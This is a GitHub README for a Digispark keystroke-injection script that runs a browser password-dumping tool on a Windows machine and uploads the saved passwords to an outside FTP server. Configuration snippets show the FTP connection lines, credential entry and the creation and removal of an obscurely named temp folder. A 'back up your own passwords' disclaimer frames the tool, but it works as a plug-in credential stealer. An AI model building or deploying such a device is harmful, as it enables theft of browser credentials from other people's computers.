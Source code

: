 # Digispark-PasswordRetriever
<br/>
<p align="center">
  <a href="https://github.com/dehmitros/Digispark-PasswordRetriever">
    <img src="https://i.imgur.com/qkDFmPA.png" alt="Logo" width="80" height="80">
  </a>

  <h3 align="center">Digispark Password Retriever</h3>

  <p align="center">
    Back-up all your passwords in a few minutes!
    <br/>
    <br/>
    <a href="https://github.com/dehmitros/Digispark-PasswordRetriever/issues">Report Bugs</a>
  </p>

![Downloads](https://img.shields.io/github/downloads/dehmitros/Digispark-PasswordRetriever/total) 
</p>

## Table Of Contents
* [Warning](#warning)
* [About the Project](#about-the-project)
* [Getting Started](#getting-started)
  * [Prerequisites](#prerequisites)
* [Usage](#usage)
* [License](#license)
* [Author](#authors)

## Warning

This script was created for backing-up YOUR OWN passwords and to be used strictly for computers YOU own! It is not supposed to be a hack or to be used as one. I am in NO WAY responsible for anything illegal that happens through the use of this script.

## About The Project

Every password you've ever saved in your browser gets chached. While this does raise some security concerns, it means backing-up and moving passwords from one computer to another is relatively easy. What this script does is it uses NirSoft's very well-known password retrieving tool (WebBrowserPassView), and automatically upload it to a specified FTP server using a dirt-cheap arduino-compatible board called DigiSpark.

## Getting Started

Firstly you need to download the script and open it in your Arduino IDE.
Either click on the green "Code" button > Download as zip
or
Select the script you want to use and copy-paste it to your Arduino IDE.

### Prerequisites

After you've opened the script, you will need to modify a few things.

Firstly, you need to specify what FTP server you're using (default is ftp.drivehq.com since it offers a free account).

Go to 
```sh
DigiKeyboard.print("open ftp.drivehq.com");
```
and change it according to your needs.

You will then need to type your username/password for the FTP server 2 times each
Firstly in 
```sh
//get file through FTP
```
and secondly in
```sh
//send file through FTP
```

Both look like this
```sh
DigiKeyboard.print("username");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(1200);
DigiKeyboard.print("password");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
```

Additionally you can also change the directory the script makes + it's location by modifying the lines
```sh
DigiKeyboard.print("mkdir C:\\t3mp0r4ry");
DigiKeyboard.print("rmdir C:\\t3mp0r4ry /s");
DigiKeyboard.print("cd C:\\t3mp0r4ry");
 ``` 
(The last one appears 2 times)

Lastly you can modify the delays depending on the speeds of your computer, they look like this
```sh
DigiKeyboard.delay("enter number in milliseconds");
 ``` 


## Usage

Just upload the modified script to your DigiSpark and you're good to go!

## License

Distributed under the ODC Open Database License (ODbL). See [LICENSE](https://github.com/dehmitros/Digispark-PasswordRetriever/blob/master/LICENSE.md) for more information.

## Authors

* [DehMitros](https://github.com/dehmitros/)